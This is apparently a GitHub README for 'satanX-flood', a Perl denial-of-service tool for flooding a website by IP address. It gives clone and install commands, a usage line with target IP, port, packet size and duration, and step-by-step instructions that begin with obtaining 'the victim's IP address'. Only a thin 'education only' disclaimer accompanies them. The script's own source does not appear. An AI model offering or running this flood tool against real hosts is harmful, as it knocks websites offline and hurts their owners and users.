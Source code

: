 # satanX-flood 
![satanX-flood preview](satanX-flood.jpg)

## introduction
satanX-flood is a DDOS tool that is used to flood a website using the IP address

## Instalations
```
$ pkg update -y && pkg upgrade -y
$ apt update -y && apt upgrade -y
$ pkg install git
$ pkg install perl
$ git clone https://github.com/Whomrx666/satanX-flood.git
$ cd satanX-flood
```
## How to use
```
$ perl satanX-flood.pl <ip target> 80 100 50
```
## Explanation
80 : port ,
100 : byte ,
50 : seconds of time

## Instructions
- **first**: Install tools according to the instructions above
- **second**: Make sure you already have the victim's IP address
- **third**: Enter the command according to the usage above
- **last**: The tools will automatically flood the web according to the commands you enter

## Observation
This is a tool for education only, I am not responsible for any misuse
### Original Author
<a href="https://github.com/Whomrx666"><img src="https://img.shields.io/badge/Original-Author-brightgreen.svg" alt=""/></a>

### <<< If you copy , Then Give me The Credits >>>

## CONNECT WITH ME :

[![Instagram](https://img.shields.io/badge/WEBSITE-VISIT-yellow?style=for-the-badge&logo=blogger)](https://whomrxhackers.blogspot.com/)
[![Instagram](https://img.shields.io/badge/TWITTER-FOLLOW-red?style=for-the-badge&logo=x)](https://twitter.com/whomrx666)
[![Instagram](https://img.shields.io/badge/YOUTUBE-SUBSCRIBE-red?style=for-the-badge&logo=youtube)](https://youtube.com/@whomrx666)
[![Instagram](https://img.shields.io/badge/FACEBOOK-LIKE-red?style=for-the-badge&logo=facebook)](https://facebook.com/https://www.facebook.com/whomrx.666)
[![Instagram](https://img.shields.io/badge/TELEGRAM-CONNECT-red?style=for-the-badge&logo=telegram)](https://t.me/@Whomr_X)
[![Instagram](https://img.shields.io/badge/GMAIL-CONTACT-red?style=for-the-badge&logo=gmail)](mailto:whomrx666@gmail.com)
[![Instagram](https://img.shields.io/badge/TIKTOK-FOLLOW-red?style=for-the-badge&logo=tiktok)](https://www.tiktok.com/@whomr.x)

**If you want to donate, click on the button**
<a href="https://saweria.co/whomrx"><img title="Donate" src="https://img.shields.io/badge/Donate-satanX flood-yellow?style=for-the-badge&logo=github"></a>

### Visitors :
![Visitor Count](https://profile-counter.glitch.me/Whomrx666/count.svg)
